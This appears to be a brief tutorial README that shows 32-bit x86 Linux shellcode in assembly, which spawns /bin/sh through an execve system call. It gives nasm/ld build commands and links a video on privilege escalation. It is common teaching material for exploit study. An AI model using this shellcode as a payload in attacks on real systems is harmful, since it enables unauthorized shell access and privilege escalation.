 # ShellCode

Sample Assembly Code

```asm

section .text
  global _start

_start:
  xor eax, eax

  push eax

  push 0x68732f2f
  push 0x6e69622f       ; //bin/sh
  
  mov ebx, esp          ; stack pointer to register

  mov ecx, eax

  mov al, 0xb
  int 0x80

```

Compilation

```

nasm -f elf -o shell.o shell.asm
ld -o shell shell.o

```


# Reference
- [Priviledge Escalation](https://www.youtube.com/watch?v=HSlhY4Uy8SA&ab_channel=LiveOverflow)